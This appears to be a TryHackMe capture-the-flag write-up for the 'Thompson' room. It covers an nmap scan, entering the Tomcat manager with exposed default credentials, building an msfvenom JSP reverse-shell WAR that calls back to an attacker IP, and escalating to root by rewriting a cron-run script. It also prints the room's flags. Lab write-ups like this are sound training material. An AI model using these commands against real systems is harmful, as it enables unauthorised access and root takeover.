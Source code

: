 ```yaml
---
title: "Thompson - TryHackMe"
author: Ludovic COULON
date: 2020-06-07
hero: ./images/hero.png
excerpt: "Writeup for the Thompson room on TryHackMe"
---
```


[TryHackMe | Thompson](https://tryhackme.com/room/bsidesgtthompson)
Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.221.95
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33

8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/gQ8AzdM.png" alt="blog_image" />
</div>

Let's try the "manager app" button

<div className="Image__Medium">
  <img src="https://imgur.com/Ty59zwz.png" alt="blog_image" />
</div>

Well, I tried the cancel button because I don't have any credentials

<div className="Image__Medium">
  <img src="https://imgur.com/0wnAZv3.png" alt="blog_image" />
</div>

For some obscure reason (maybe bad configuration) there is a password and a username let's try it ! 🤨

<div className="Image__Medium">
  <img src="https://imgur.com/x0PrhCR.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/7CTEfM6.png" alt="blog_image" />
</div>

Well that worked let's see if there is a way to upload some reverse shell 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/n7GjOi7.png" alt="blog_image" />
</div>

I noticed a WAR file uploader let's search something on github/google

[Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

```bash
➜  TryHackMe msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.228 LPORT=1234 -f war > shell.war
```

<div className="Image__Medium">
  <img src="https://imgur.com/FwO3JC4.png" alt="blog_image" />
</div>

### #1 user.txt

```bash
39400c90bc683a41a8935e4719f181bf
```

### #2 root.txt

```bash
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

$ bash id.sh
id.sh: line 2: test.txt: Permission denied

$ cat id.sh
#!/bin/bash
id > test.txt

$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

If we copy the content root key on the [id.sh](http://id.sh) it should be executed with root privileges let's try that ! :D

```bash
echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

```bash
# Its a cron job its gonna take some time..
$ cat id.sh
cp /root/root.txt /home/jack/root.txt

$ ls
id.sh  root.txt  test.txt  user.txt

$ cat root.txt
d89d5391984c0450a95497153ae7ca3a
```
